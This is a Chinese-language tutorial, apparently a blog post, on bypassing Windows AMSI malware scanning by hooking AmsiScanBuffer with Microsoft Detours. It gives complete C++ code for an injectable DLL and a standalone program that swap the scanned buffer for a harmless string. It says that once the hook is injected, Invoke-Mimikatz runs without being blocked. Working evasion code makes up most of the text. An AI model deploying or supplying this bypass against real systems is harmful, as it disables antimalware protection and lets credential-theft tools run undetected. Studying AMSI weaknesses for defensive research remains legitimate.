__declspec(dllexport) HRESULT _AmsiScanBuffer(HAMSICONTEXT amsiContext,
PVOID buffer, ULONG length,
LPCWSTR contentName,
HAMSISESSION amsiSession,
AMSI_RESULT* result) {
std::cout << "[+] AmsiScanBuffer called" << std::endl;
std::cout << "[+] Buffer " << buffer << std::endl;
std::cout << "[+] Buffer Length " << length << std::endl;
return OriginalAmsiScanBuffer(amsiContext, (BYTE*)SAFE, length, contentName, amsiSession, result);
}
BOOL APIENTRY DllMain(HMODULE hModule,
DWORD dwReason,
LPVOID lpReserved
)
{
if (DetourIsHelperProcess()) {
return TRUE;
}
if (dwReason == DLL_PROCESS_ATTACH) {
AllocConsole();
freopen_s((FILE**)stdout, "CONOUT$", "w", stdout);
DetourRestoreAfterWith();
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourAttach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer);
DetourTransactionCommit();
} else if (dwReason == DLL_PROCESS_DETACH) {
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourDetach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer);
DetourTransactionCommit();
FreeConsole();
}
return TRUE;
}
如果环境允许的话可以进行调试，调试过程中可以看到AMSI的作用方式，主要是观察AmsiScanBuffer的前几条指令。

在注入后我们可以看到跳转指令，在我们进行注入修改后继续单步执行就会跳到我们构造好的AmsiScanBuffer

注入成功后再来执行Invoke-mimikatz就不会被拦截了，效果如下：

HOOK函数
既然没有保护可以直接进行劫持，那同样地也可以尝试通过HOOK的方式进行绕过。
HOOK函数可以让我们在调用这个函数之前控制这个函数，作为攻击者我们能做的事情很多，比如记录参数日志、允许或者拦截函数的执行、覆盖传入这个函数的参数、修改函数的返回值，我们现在需要找到hook AMSI检测函数即AmsiScanBuffer函数的方法，这里可使用微软提供的hook函数库detours。
关于Detours Hook库的详细使用可以参考CSDN上的一篇文章
以下代码为某大佬写的demo，用于演示Detours库如何Hook MessageBox函数并且覆盖用户参数
#include <iostream>
#include <Windows.h>
#include <detours.h>
static int(WINAPI* OriginalMessageBox)(HWND hWnd, LPCWSTR lpText, LPCWSTR lpCaption, UINT uType) = MessageBox;
int WINAPI _MessageBox(HWND hWnd, LPCSTR lpText, LPCTSTR lpCaption, UINT uType) {
return OriginalMessageBox(NULL, L"We've used detours to hook MessageBox", L"Hooked Window", 0);
}
int main() {
std::cout << "[+] Hooking MessageBox" << std::endl;
DetourRestoreAfterWith();
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourAttach(&(PVOID&)OriginalMessageBox, _MessageBox);
DetourTransactionCommit();
std::cout << "[+] Message Box Hooked" << std::endl;
MessageBox(NULL, L"My Message", L"My Caption", 0);
std::cout << "[+] Unhooking MessageBox" << std::endl;
DetourUpdateThread(GetCurrentThread());
DetourDetach(&(PVOID&)OriginalMessageBox, _MessageBox);
DetourTransactionCommit();
std::cout << "[+] Message Box Unhooked" << std::endl;
}
有了这部分基础就可以进行编写，通过Hook AMSIScanBuffer来达到绕过验证的目的。可以使用的payload参考EICAR进行实现，以下为EICAR简介和测试代码。
EICAR标准反病毒测试文件，又称EICAR测试文件, 是由欧洲反计算机病毒协会（EICAR）与计算机病毒研究组织（CARO）研制的文件, 用以测试杀毒软件的响应程度。不同于使用可能造成实际破环的实体恶意软件，该文件允许人们在没有计算机病毒的情况下测试杀毒软件。
#include <iostream>
#include <Windows.h>
#include <amsi.h>
#include <system_error>
#pragma comment(lib, "amsi.lib")
#define EICAR "X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"
const char* GetResultDescription(HRESULT hRes) {
const char* description;
switch (hRes)
{
case AMSI_RESULT_CLEAN:
description = "AMSI_RESULT_CLEAN";
break;
case AMSI_RESULT_NOT_DETECTED:
description = "AMSI_RESULT_NOT_DETECTED";
break;
case AMSI_RESULT_BLOCKED_BY_ADMIN_START:
description = "AMSI_RESULT_BLOCKED_BY_ADMIN_START";
break;
case AMSI_RESULT_BLOCKED_BY_ADMIN_END:
description = "AMSI_RESULT_BLOCKED_BY_ADMIN_END";
break;
case AMSI_RESULT_DETECTED:
description = "AMSI_RESULT_DETECTED";
break;
default:
description = "";
break;
}
return description;
}
int main() {
HAMSICONTEXT amsiContext;
HRESULT hResult = S_OK;
AMSI_RESULT res = AMSI_RESULT_CLEAN;
HAMSISESSION hSession = nullptr;
LPCWSTR fname = L"EICAR";
BYTE* sample = (BYTE*)EICAR;
ULONG size = strlen(EICAR);
ZeroMemory(&amsiContext, sizeof(amsiContext));
hResult = AmsiInitialize(L"AmsiHook", &amsiContext);
if (hResult != S_OK) {
std::cout << std::system_category().message(hResult) << std::endl;
std::cout << "[-] AmsiInitialize Failed" << std::endl;
return hResult;
}
hResult = AmsiOpenSession(amsiContext, &hSession);
if (hResult != S_OK) {
std::cout << std::system_category().message(hResult) << std::endl;
std::cout << "[-] AmsiOpenSession Failed" << std::endl;
return hResult;
}
hResult = AmsiScanBuffer(amsiContext, sample, size, fname, hSession, &res);
if (hResult != S_OK) {
std::cout << std::system_category().message(hResult) << std::endl;
std::cout << "[-] AmsiScanBuffer Failed " << std::endl;
return hResult;
}
// Anything above 32767 is considered malicious
std::cout << GetResultDescription(res) << std::endl;
}
以下为EICAR的输入和运行脚本的输出截图：
有了测试AmsiScanBuffer的基础代码，我们使用刚才在hook messagebox中使用的方法来hook AmsiScanBuffer
#include <iostream>
#include <Windows.h>
#include <amsi.h>
#include <detours.h>
#include <system_error>
#pragma comment(lib, "amsi.lib")
#define EICAR "X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"
#define SAFE "SafeString"
//Converts number given out by AmsiScanBuffer into a readable string
const char* GetResultDescription(HRESULT hRes) {
const char* description;
switch (hRes)
{
case AMSI_RESULT_CLEAN:
description = "AMSI_RESULT_CLEAN";
break;
case AMSI_RESULT_NOT_DETECTED:
description = "AMSI_RESULT_NOT_DETECTED";
break;
case AMSI_RESULT_BLOCKED_BY_ADMIN_START:
description = "AMSI_RESULT_BLOCKED_BY_ADMIN_START";
break;
case AMSI_RESULT_BLOCKED_BY_ADMIN_END:
description = "AMSI_RESULT_BLOCKED_BY_ADMIN_END";
break;
case AMSI_RESULT_DETECTED:
description = "AMSI_RESULT_DETECTED";
break;
default:
description = "";
break;
}
return description;
}
//Store orignal version of AmsiScanBuffer
static HRESULT(WINAPI* OriginalAmsiScanBuffer)(HAMSICONTEXT amsiContext,
PVOID buffer, ULONG length,
LPCWSTR contentName,
HAMSISESSION amsiSession,
AMSI_RESULT* result) = AmsiScanBuffer;
//Our user controlled AmsiScanBuffer
HRESULT _AmsiScanBuffer(HAMSICONTEXT amsiContext,
PVOID buffer, ULONG length,
LPCWSTR contentName,
HAMSISESSION amsiSession,
AMSI_RESULT* result) {
return OriginalAmsiScanBuffer(amsiContext, (BYTE*)SAFE, length, contentName, amsiSession, result);
}
//Sets up detours to hook our function
void HookAmsi() {
DetourRestoreAfterWith();
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourAttach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer);
DetourTransactionCommit();
}
//Undoes the hooking we setup earlier
void UnhookAmsi() {
DetourUpdateThread(GetCurrentThread());
DetourDetach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer);
DetourTransactionCommit();
}
int main() {
//Declares variables required for AmsiInitialize, AmsiOpenSession, and AmsiScanBuffer
HAMSICONTEXT amsiContext;
HRESULT hResult = S_OK;
AMSI_RESULT res = AMSI_RESULT_CLEAN;
HAMSISESSION hSession = nullptr;
//Declare test case to use
LPCWSTR fname = L"EICAR";
BYTE* sample = (BYTE*)EICAR;
ULONG size = strlen(EICAR);
std::cout << "[+] Hooking AmsiScanBuffer" << std::endl;
HookAmsi();
std::cout << "[+] AmsiScanBuffer Hooked" << std::endl;
ZeroMemory(&amsiContext, sizeof(amsiContext));
hResult = AmsiInitialize(L"AmsiHook", &amsiContext);
if (hResult != S_OK) {
std::cout << std::system_category().message(hResult) << std::endl;
std::cout << "[-] AmsiInitialize Failed" << std::endl;
return hResult;
}
hResult = AmsiOpenSession(amsiContext, &hSession);
if (hResult != S_OK) {
std::cout << std::system_category().message(hResult) << std::endl;
std::cout << "[-] AmsiOpenSession Failed" << std::endl;
return hResult;
}
hResult = AmsiScanBuffer(amsiContext, sample, size, fname, hSession, &res);
if (hResult != S_OK) {
std::cout << std::system_category().message(hResult) << std::endl;
std::cout << "[-] AmsiScanBuffer Failed " << std::endl;
return hResult;
}
std::cout << GetResultDescription(res) << std::endl;
std::cout << "[+] Unhooking AmsiScanBuffer" << std::endl;
UnhookAmsi();
std::cout << "[+] AmsiScanBuffer Unhooked" << std::endl;
}
上述代码同时进行了HOOK并输入了EICAR的恶意代码，可以看到此时成功绕过了AMSI的检测，并没有进行禁止输入的响应。

Reference
[1] https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal
[2] https://github.com/fdiskyou/injectAllTheThings
[3] https://blog.csdn.net/qing666888/article/details/81540683
[4] https://twitter.com/_xpn_/status/1069759374984429568
[5] https://twitter.com/mattifestation/status/1071034781020971009
[6] https://github.com/atxsinn3r/amsiscanner/blob/master/amsiscanner.cpp
[7] https://www.anquanke.com/post/id/168210
[11] https://blog.csdn.net/weixin_44001905/article/details/109633482